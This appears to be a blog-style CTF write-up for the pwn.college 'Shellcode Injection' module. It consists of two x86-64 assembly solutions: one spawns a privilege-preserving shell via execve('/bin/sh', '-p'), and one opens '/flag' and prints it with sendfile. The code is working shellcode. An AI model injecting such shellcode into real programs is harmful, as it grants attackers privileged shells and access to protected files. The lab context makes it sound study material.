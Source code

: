 ```yaml
---
layout:	post
title:  "pwn.college: Shellcode Injection"
date: 2022-3-7 20:00
author: "Adam"
header-img: "img/post-bg-shellcode.jpg"
catalog: true
tags:
   - pwn.college
   - Shellcode
---
```

#### Level 0

```assembly
/* execve(path='/bin///sh', argv=['sh','-p'], envp=0) */
    /* push b'/bin///sh\x00' */
    push 0x68
    mov rax, 0x732f2f2f6e69622f
    push rax
    mov rdi, rsp
    /* push argument array ['sh\x00', '-p\x00'] */
    /* push b'sh\x00-p\x00' */
    mov rax, 0x101010101010101
    push rax
    mov rax, 0x101010101010101 ^ 0x702d006873
    xor [rsp], rax
    xor esi, esi /* 0 */
    push rsi /* null terminate */
    push 0xb
    pop rsi
    add rsi, rsp
    push rsi /* '-p\x00' */
    push 0x10
    pop rsi
    add rsi, rsp
    push rsi /* 'sh\x00' */
    mov rsi, rsp
    xor edx, edx /* 0 */
    /* call execve() */
    push SYS_execve /* 0x3b */
    pop rax
    syscall
```



#### Level 2

```assembly
mov rbx, 0x00000067616c662f	# push "/flag" filename
push rbx
mov rax, 2				# syscall number of open
mov rdi, rsp				# point the first argument at stack ("/flag").
mov rsi, 0				# NULL out the second argument (meaning, O_RDONLY).
syscall				# trigger open("/flag", NULL).

mov rdi, 1				# first argument to sendfile is the file descriptor to output to (stdout).
mov rsi, rax				# second argument is the file descriptor returned by open
mov rdx, 0				# third argument is the number of bytes to skip from the input file
mov r10, 1000				# fourth argument is the number of bytes to transfer to the output file
mov rax, 40				# syscall number of sendfile
syscall				# trigger sendfile(1, fd, 0, 1000).

```